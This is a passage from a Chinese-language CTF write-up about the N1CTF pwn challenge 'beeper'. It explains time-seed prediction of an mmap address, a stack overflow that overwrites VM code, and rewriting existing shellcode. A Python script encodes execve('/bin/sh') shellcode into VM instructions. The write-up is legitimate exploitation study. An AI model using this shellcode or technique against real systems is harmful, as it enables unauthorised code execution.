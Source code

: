 ```yaml
---
title: 两次CTF比赛总结
tags:
  - CTF
date: 2018/3/28
---
```



最近打了N1CTF和强网杯两场比赛,应该都算是国内大型比赛了.题目的难度都很高,质量上乘,菜的我泣不成声....

以下是当时我做出来的一些题目.

## N1CTF

### pwn - beeper

这题其实就两个点

第一个点是他通过时间种子去随机出一个mmap page出来,因此我们可以同步时间,从而得到远程mmap的地址

![](n1ctf_qwb_0017eb7091a6c818ca016041de50d544.png)

其次是我们的操作需要先login,而login需要执行他的vmcode得到密文,很麻烦.

但是这里有一个明显的栈溢出,能够覆盖他的vmcode,从而对我们的输入不进行变换

![](n1ctf_qwb_db462762cb4952a4009ad3c8da05a263.png)


过了验证以后发现,我们还有relogin的功能,由于vmfunc在操作内存的时候,是根据reg1即pwd的地址来寻址的,而reg1我们也能够覆盖到,因此我们可以把reg1改到mmap page上,而page上有shellcode,且page有write权限,因此我们去修改它的shellcode为我们getshell的shellcode.这里就必须用到他的那一套解释器了.

大概这样
```python
y='686F6420018134240101010148B8757920612070686F5048B8616E206E6F7420625048B865722C796F7520635048B842'.decode('hex')#write

d='6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05'.decode('hex')#execve

out=""

for i in range(len(d)):
	yy = ord(y[i])
	dd = ord(d[i])
	if dd>=yy:
		if (dd-yy)>=28:
			b = (dd-yy)/5
			n = (dd-yy)%5
			out+= 'L'*5+'{'+'m'*b +'1'+'}' + 'm'*n
		else:
			out+='m'*(dd-yy)
	else:
		if (yy-dd)>=28:
			b = (yy-dd)/5
			n = (yy-dd)%5
			out+= 'L'*5+'{'+'u'*b +'1'+'}' + 'u'*n
		else:
			out+='u'*(yy-dd)
	out+='h'

print out

'''
case 'h':                                 // inc reg1
```